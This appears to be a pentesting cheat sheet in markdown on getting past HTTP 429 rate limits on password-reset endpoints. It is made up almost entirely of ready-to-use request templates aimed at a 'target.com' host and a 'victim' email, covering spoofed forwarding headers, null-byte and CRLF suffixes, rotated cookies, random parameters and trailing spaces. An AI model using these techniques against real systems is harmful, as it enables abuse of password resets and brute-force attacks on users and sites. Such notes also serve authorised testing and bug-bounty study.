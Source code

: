 # 429 Bypass (Too Many Requests)
### Custom Header
```bash
# Try add custom headers
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1

# Try this to bypass
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
...

email=victim@gmail.com
```
### Adding Null Byte `%00` or CRLF `%09`, `%0d`, `%0a` at the end of the Email can bypass rate limit
```bash
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com%00

```
### Try changing `user-agents`, `cookies` and `IP address`
```bash
# Normal Request (429)
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
...

email=victim@gmail.com


# Try this to bypass (200)
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
...

email=victim@gmail.com

```

### Add a random parameter on the last endpoint
```bash
# Normal Request (429)
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com

# Try this to bypass (200)
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```

### Add `space` after the parameter value
```bash
# Normal Request (429)
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com"}

# Try this to bypass (200)
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com "}
```















